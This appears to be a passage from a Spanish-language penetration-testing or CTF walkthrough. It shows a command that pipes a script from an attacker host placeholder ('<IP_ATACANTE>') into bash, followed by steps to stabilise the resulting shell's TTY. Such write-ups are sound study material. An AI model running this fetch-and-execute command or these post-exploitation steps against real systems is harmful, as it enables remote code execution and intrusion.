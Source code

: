 ```
curl http://<IP_ATACANTE>/test.sh | bash
```

![gobuster](Imagenes/25.png)

Ahora realizamos un tratamniento de la tty para operar con mayor comodidad con la consola:

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```

![gobuster](Imagenes/26.png)
